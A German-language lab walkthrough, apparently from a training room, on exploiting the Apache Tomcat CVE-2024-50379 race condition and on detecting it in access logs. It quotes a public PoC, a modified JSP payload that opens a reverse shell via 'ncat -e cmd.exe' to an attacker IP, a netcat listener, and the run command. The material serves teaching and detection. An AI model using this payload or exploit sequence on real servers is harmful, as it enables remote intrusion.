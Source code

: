 In dem Beispiel nutze ich den Exploit den ich via  `git clone https://github.com/iSee857/CVE-2024-50379-PoC` bekomme 

Wir nehmen zwei Änderungen an diesem Skript vor:

- Ändern des Schleifenzählers: In dieser Laborumgebung haben wir mit der AttackBox und einer Ziel-VM festgestellt, dass es effizienter ist, jede der vier Anfragen 2000 Mal statt 10000 Mal zu wiederholen.
- Ändern der  Payload: Um die Ausnutzung interessanter zu gestalten, verwenden wir eine Reverse-Shell, anstatt den Taschenrechner auf dem Zielsystem zu starten.

die Payload setzen ändern wir auf 

```python
payload_put = "<%@ page import=\"java.io.*\" %><% Runtime.getRuntime().exec(\"cmd /c start ncat -e cmd.exe 10.10.110.211 8888\"); %>"
```

Da der Einfackeit halber auf dem Zielsystem bereits NCat installiert ist. Diese Payload verwendet JSPs Runtime.getRuntime().exec(), um cmd /c start ncat -e cmd.exe 10.10.110.211 8888 auszuführen. Wie bereits erwähnt, ist dies möglich, weil wir ncat für die Zwecke dieser Demonstration installiert haben.

Um die Shell dann auf dem Angreifer System wieder zu Fangen müssen wir natürlich auch einen Listener aufsetzen das geht via:
```
netcat -lvnp 8888
```

Dann können wir den POC ausführen via: 

```
python3 ApachTomcat_CVE-2024-50379_ConditionalCompetitionToRce.py -u 10.10.65.194:8080
```

Hinweis 1: Wenn Sie diesen Befehl ausführen, wird eine Meldung wie „Checking http://10.10.65.194:8080/...“ angezeigt, und das Terminal zeigt für einige Minuten keine Aktualisierungen mehr an. Während dieser Zeit sendet der Exploit-Code viele Anfragen, um den Zielserver zu überlasten und erfolgreich eine Race Condition zu erzeugen. Bitte warten Sie, während das Skript ausgeführt wird, und beobachten Sie das Terminal, auf dem der Befehl „netcat -lvnp 8888“ ausgeführt wird. Geduld ist hier gefragt.

Hinweis 2: Da es sich um einen Race-Condition-Exploit handelt, müssen Sie den PoC möglicherweise mehrmals wiederholen, bevor er erfolgreich ist.

# Detection

## Web Access Logs

Da die Schwachstelle auf einer erfolgreichen Race Condition beruht und für jeden Ausnutzungsversuch ein Datei-Upload erforderlich ist, lässt sie sich leicht in den Webzugriffsprotokollen erkennen, die standardmäßig in den Dateien `C:\Program Files\Apache Software Foundation\<Tomcat Version>\logs\*access_log*` verfügbar sind. Der einfachste Angriff auf Websites mit uneingeschränktem Datei-Upload wird wie folgt protokolliert:

1. PUT-Anfragen zum Hochladen der Datei mit Großbuchstaben (.Jsp oder .JSP) („PUT /cve.Jsp“)
2. GET-Anfrage an dieselbe Datei unmittelbar danach, nun jedoch mit der Erweiterung .jsp („GET /cve.jsp“)
3. Die GET-Anfrage wird entweder mit dem Statuscode 200 oder 404 protokolliert, je nachdem, ob die Race Condition erfolgreich war oder nicht
4. Die oben genannten Schritte werden wiederholt, bis die Race Condition erfolgreich ist; in der Regel sind dies 1000 oder mehr Versuche
